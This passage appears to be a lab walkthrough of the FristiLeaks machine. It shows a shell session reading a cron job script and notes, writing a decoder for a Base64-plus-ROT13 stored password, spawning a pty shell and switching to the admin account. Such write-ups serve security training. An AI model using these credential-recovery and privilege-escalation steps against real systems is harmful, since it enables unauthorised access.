    for line in f:
        #does the command start with /home/admin or /usr/bin?
        if line.startswith('/home/admin/') or line.startswith('/usr/bin/'):
            #lets check for pipeline
            checkparams= '|&;'
            if checkparams in line:
                writefile("Sorry, not allowed to use |, & or ;")
                exit(1)
            else:
                writefile("executing: "+line)
                result =os.popen(line).read()
                writefile(result)
        else:
            writefile("command did not start with /home/admin or /usr/bin")
```

In the same directory, we discover an encoded string saved inside cryptedpass.txt.

```
sh-4.1$ cat cryptedpass.txt
cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
```

We also find cryptpass.py, which is the custom Python script used to generate that encoded string using a combination of Base64 and ROT13.

```
sh-4.1$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

An intriguing file named whoisyourgodnow.txt is also present, but our current user lacks the privileges to read it.

```
sh-4.1$ cat whoisyourgodnow.txt
cat whoisyourgodnow.txt
cat: whoisyourgodnow.txt: Permission denied
```

Moving on to investigate /home/eezeepz.

```
cd /home/eezeepz
```

Inside, notes.txt explains that "Jerry" configured an automated script that executes commands written to /tmp/runthis every minute under his account privileges.

```
sh-4.1$ cat notes.txt
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

Finally, we attempt to check /home/fristigod.

```
cd /home/fristigod
```

However, attempting to access this directory results in a permission denied error.

```
sh-4.1$ cd /home/fristigod
cd /home/fristigod
sh: cd: /home/fristigod: Permission denied
```

Create a Python script named decode.py on Kali.

```
import base64,codecs,sys

def decodeString(str):
    base64string = codecs.decode(str[::-1], 'rot13')
    return base64.b64decode(base64string)

cryptoResult=decodeString(sys.argv[1])
print cryptoResult
```

Execute it.

```
python2 decode.py mVGZ3O3omkJLmy2pcuTq
```

The decoded text is thisisalsopw123.

```                      
┌──(kali㉿kali)-[~/Desktop/ccmtlab/06]
└─$ python2 decode.py mVGZ3O3omkJLmy2pcuTq
thisisalsopw123
```

```
sh-4.1$ su admin
su admin
standard in must be a tty
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
bash-4.1$ su admin
su admin
Password: thisisalsopw123

[admin@localhost home]$ whoami
whoami
admin
```